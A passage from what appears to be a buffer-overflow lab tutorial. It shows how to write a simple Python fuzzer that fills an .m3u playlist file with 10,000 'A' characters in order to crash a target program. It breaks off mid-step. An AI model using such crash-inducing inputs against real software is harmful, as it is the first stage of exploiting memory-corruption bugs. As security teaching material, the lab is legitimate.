 - We'll make a fuzzer that creates an attack file.
- On your Kali Linux machine, in a Terminal window, execute this command.
  ```bash
  nano ezm-fuzz1

  #!/usr/bin/python
  attack = 'A' * 10000
  print attack
  ```
  ![Picture](../11.%20Windows%20Buffer%20Overflows/Image/3.png)
- Next you need to make the program executable. To do that, in Kali Linux, in a Terminal window, execute this command.
  ```bash
  chmod a+x ezm-fuzz1
  ```
- In the Terminal window, execute this command to run the program, and put the output into a file named ezm-fuzz1.m3u.
  ```bash
  ./ezm-fuzz1 > ezm-fuzz1.m3u
  ```
- In the Terminal window, execute this command to see the files you just created (note the command is "LS -L EZM*" all in lowercase; it does not contain any numeral 1characters).
  ```bash
  ls -l ezm*
  ```
- You should see a file named ezm-fuzz1.m3u with a size of 10001, as shown below.